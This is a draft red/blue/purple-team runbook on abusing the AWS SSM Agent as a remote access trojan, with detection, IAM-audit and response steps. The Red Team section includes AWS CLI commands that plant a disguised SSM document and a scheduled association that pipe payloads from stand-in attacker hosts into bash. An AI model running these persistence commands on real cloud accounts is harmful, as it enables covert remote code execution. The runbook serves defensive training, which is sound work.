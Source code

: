 # SSM Agent Hijacking: Blue Team vs. Red Team Runbook  ** DRAFT **

##
#
https://www.mitiga.io/blog/mitiga-security-advisory-abusing-the-ssm-agent-as-a-remote-access-trojan
#
[https://www.mitiga.io/blog/mitiga-security-advisory-abusing-the-ssm-agent-as-a-remote-access-trojan
](https://thehackernews.com/2023/08/researchers-uncover-aws-ssm-agent.html)#
#
##

## Overview

The Mitiga research shows how AWS Systems Manager (SSM) Agent can be abused as a Remote Access Trojan, allowing attackers to maintain persistent access to compromised systems while evading detection.

## Red Team Playbook

### Reconnaissance
- Identify EC2 instances with SSM Agent installed
- Discover IAM roles/policies with SSM permissions
- Enumerate existing SSM documents and associations

### Initial Access Methods
- Compromise AWS credentials with SSM permissions
- Target instances with overly permissive IAM roles
- Exploit misconfigured SSM documents

### SSM Agent Exploitation Techniques
1. **Execution via Run Command**
   - Use AWS CLI to send malicious commands:
     ```bash
     aws ssm send-command --document-name "AWS-RunShellScript" \
       --targets "Key=instanceids,Values=i-1234567890abcdef0" \
       --parameters 'commands=["malicious command here"]'
     ```

2. **Persistence via SSM Documents**
   - Create custom SSM documents for backdoor access:
     ```bash
     aws ssm create-document --name "Maintenance-Script" \
       --content '{"schemaVersion":"2.2","description":"Legitimate maintenance","mainSteps":[{"action":"aws:runShellScript","name":"runShellScript","inputs":{"runCommand":["curl https://malicious-domain/payload | bash"]}}]}'
     ```

3. **Lateral Movement**
   - Pivot through instances managed by SSM
   - Chain command execution across multiple targets
   
4. **Create Malicious SSM Associations**
   - Configure scheduled execution:
     ```bash
     aws ssm create-association --name "AWS-RunShellScript" \
       --targets "Key=tag:Environment,Values=Production" \
       --parameters "commands=[\"curl -s https://attacker-c2/payload | bash\"]" \
       --schedule-expression "rate(30 minutes)"
     ```

## Blue Team Playbook

### Prevention
1. **IAM Controls**
   - Implement least privilege for SSM permissions
   - Regularly audit IAM policies with SSM access
   - Sample policy review script:
     ```python
     import boto3
     import json
     
     iam = boto3.client('iam')
     
     def check_ssm_permissions(policy_document):
         # Check for overly permissive SSM permissions
         for statement in policy_document.get('Statement', []):
             if statement.get('Effect') == 'Allow':
                 actions = statement.get('Action', [])
                 if isinstance(actions, str):
                     actions = [actions]
                 for action in actions:
                     if action == 'ssm:*' or action == '*':
                         return True
         return False
     ```

2. **Network Controls**
   - Implement VPC endpoints for SSM to restrict traffic
   - Configure security groups to limit SSM communication
   - Monitor and alert on unusual network traffic patterns

### Detection
1. **CloudTrail Monitoring**
   - Alert on suspicious SSM API calls:
     ```
     eventSource = ssm.amazonaws.com AND 
     (eventName = SendCommand OR 
      eventName = CreateDocument OR 
      eventName = CreateAssociation)
     ```

2. **SSM Document Inventory**
   - Baseline legitimate SSM documents
   - Regularly scan for unauthorized documents:
     ```bash
     aws ssm list-documents --filters "Key=Owner,Values=Self" --output json
     ```

3. **Command Execution Auditing**
   - Monitor SSM command history for anomalies:
     ```bash
     aws ssm list-command-invocations --details
     ```

4. **Session Monitoring**
   - Track SSM Session Manager usage:
     ```bash
     aws ssm describe-sessions --state Active
     ```

### Response
1. **Incident Containment**
   - Revoke compromised IAM credentials
   - Isolate affected instances
   - Block suspicious IP addresses

2. **Eradication**
   - Delete unauthorized SSM documents:
     ```bash
     aws ssm delete-document --name "Suspicious-Document-Name"
     ```
   - Terminate malicious associations:
     ```bash
     aws ssm delete-association --association-id "association-id"
     ```

3. **Recovery**
   - Restore from known good backups
   - Re-deploy instances from verified AMIs
   - Implement enhanced monitoring

## Purple Team Exercise Scenarios

### Scenario 1: Persistent Access via SSM
- **Red Team Objective**: Establish persistent access using SSM associations
- **Blue Team Challenge**: Detect and respond to unauthorized associations
- **Success Criteria**: Blue team detects and remediates within 4 hours

### Scenario 2: Credential Theft and SSM Abuse
- **Red Team Objective**: Obtain AWS credentials and abuse SSM permissions
- **Blue Team Challenge**: Detect suspicious SSM activity patterns
- **Success Criteria**: Proper alerting and privilege escalation detection

### Scenario 3: Stealthy Command Execution
- **Red Team Objective**: Execute commands via SSM that evade typical detection
- **Blue Team Challenge**: Enhance monitoring to catch evasive techniques
- **Success Criteria**: Development of new detection capabilities

## Exercise Planning
1. **Pre-exercise**
   - Create isolated AWS environment for testing
   - Define clear boundaries and safety protocols
   - Establish communication channels

2. **During Exercise**
   - Document all actions with timestamps
   - Monitor for unintended consequences
   - Maintain regular checkpoints

3. **Post-exercise**
   - Review findings and gaps
   - Update security controls based on lessons learned
   - Develop enhanced detection and response capabilities


